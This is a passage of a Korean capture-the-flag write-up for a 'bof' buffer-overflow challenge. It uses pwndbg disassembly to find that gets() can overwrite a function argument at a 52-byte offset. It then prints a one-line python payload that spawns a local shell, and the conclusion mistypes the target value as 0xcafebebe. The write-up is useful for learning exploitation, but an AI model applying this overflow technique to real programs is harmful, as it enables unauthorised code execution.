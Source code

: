 ```nasm
   0x56555688 <+92>:	leave  
   0x56555689 <+93>:	ret
```

**2 행 ~ 3 행** : `func + 1` 까지 실행 시킨 뒤 인자가 들어 있는 공간(`esp+8`)을 확인하면 인자로 전달된 `0xdeadbeef`를 확인할 수 있고 주소도 확인 가능합니다.

```nasm
pwndbg> x/x $ebp+8
0xffffd330:     0xdeadbeef
```

- `0xfffd330`의 위치에 `0xdeadbeef`가 들어 있는 것을 볼 수 있습니다.

**9 행 ~ 13 행** :

```nasm
   0x56555649 <+29>:	lea    eax,[ebp-0x2c]
   0x5655564c <+32>:	mov    DWORD PTR [esp],eax
   0x5655564f <+35>:	call   0xf7e31120 <_IO_gets>
   0x56555654 <+40>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe
```

- `eax`에 먼저 `[ebp-0x2c]`의 주소를 넣습니다.
	- 이는 사용자의 입력값이 들어갈 위치가 됩니다.
	- 사용자의 입력값이 들어가는 주소의 시작 주소를 보면 다음과 같습니다.

```nasm
pwndbg> x/x $ebp - 0x2c
0xffffd2fc:     0x00000009
```

- 이후 `esp`(현재 스택의 위치)에 `eax`를 넣게 됩니다.

- 마지막으로 `cmp` 명령을 통해서 `ebp+0x8`(첫 번째 인자가 들어간 공간)의 값과 0xcafebabe를 비교하게 됩니다.

덮어써야 하는 공간의 길이는 `(ebp+8) - (ebp-0x2c)`가 됩니다.

```nasm
pwndbg> p ($ebp+8)-($ebp-0x2c)
$1 = 52
```

### 결론

1. `func`함수 내에서 32 바이트의 char형 공간을 할당 하였다.
2. 사용자의 입력 길이를 검증하지 않는 `gets`함수 사용으로 인해 bof가 가능하다.
3. 변조 해야하는 값은 첫 번째 인자(`0xdeadbeef`)가 입력된 `ebp+8`이다.
4. 사용자의 입력 값이 담기는 주소(`ebp-0x2c`) 부터 `ebp+8`까지의 거리는 52 byte이다.
5. 즉, 52byte를 덮어 쓰고 마지막 4byte에 원하는 값 `0xcafebebe`를 인자로 넘겨주면 된다.

## 결과

다음과 같이 페이로드 전송 시 로컬에서 쉘을 얻을 수 있다.

```bash
❯ (python2.7 -c 'print "A"*52 + "\xbe\xba\xfe\xca"' ; cat) | ./bof
overflow me :
id
uid=1000(ott3r) gid=1000(ott3r) groups=1000(ott3r),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),133(lxd),134(sambashare)
```
